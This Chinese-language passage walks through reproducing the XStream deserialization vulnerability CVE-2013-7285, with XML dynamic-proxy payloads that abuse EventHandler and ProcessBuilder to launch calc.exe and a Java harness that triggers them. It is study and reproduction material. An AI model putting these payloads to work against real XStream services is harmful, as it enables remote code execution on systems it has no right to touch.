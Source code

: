 ##### 适用范围

通杀1.4.x系列有漏洞的版本，即<=1.4.6或=1.4.10。但是缺点是，我们必须得知道服务端反序列化得到的是啥接口类。

##### 接口特征

一般的，基于接口类型的payload，是需要按照接口形式来编写的，即interface标签内容指向接口类。比如[官网](http://x-stream.github.io/CVE-2013-7285.html)给的例子，其中Contact是个接口类：

```
<contact>
  <dynamic-proxy>
    <interface>org.company.model.Contact</interface>
    <handler class='java.beans.EventHandler'>
      <target class='java.lang.ProcessBuilder'>
        <command>
          <string>calc.exe</string>
        </command>
      </target>
      <action>start</action>
    <handler>
  </dynamic-proxy>
</contact>
XStream xstream = new XStream();
Contact contact = (Contact)xstream.fromXML(xml);
```

这种方式是基于服务端解析XML之后会直接调用到XML中interface标签指向的接口类声明的方法，因此这种情形下必然会触发动态代理类对象的恶意方法。

##### 复现

下面我们试下这个payload，ipayload.xml，这个更为简单直接，不需要在dynamic-proxy外再加其他的转换器，直接利用的DynamicProxyConverter转换器来识别：

```
<dynamic-proxy>
    <interface>IPerson</interface>
    <handler class="java.beans.EventHandler">
        <target class="java.lang.ProcessBuilder">
            <command>
                <string>calc.exe</string>
            </command>
        </target>
        <action>start</action>
    </handler>
</dynamic-proxy>
```

修改Test.java，将Person类改为IPerson接口类，和ipayload.xml中的interface标签内容相对应：

```
public class Test {
    public static void main(String[] args) throws FileNotFoundException {
//        String xml = new Scanner(new File("ipayload.xml")).useDelimiter("\\Z").next();
        FileInputStream xml = new FileInputStream("ipayload.xml");
        XStream xstream = new XStream(new DomDriver());
        IPerson p = (IPerson) xstream.fromXML(xml);
        p.output();
    }
}
```
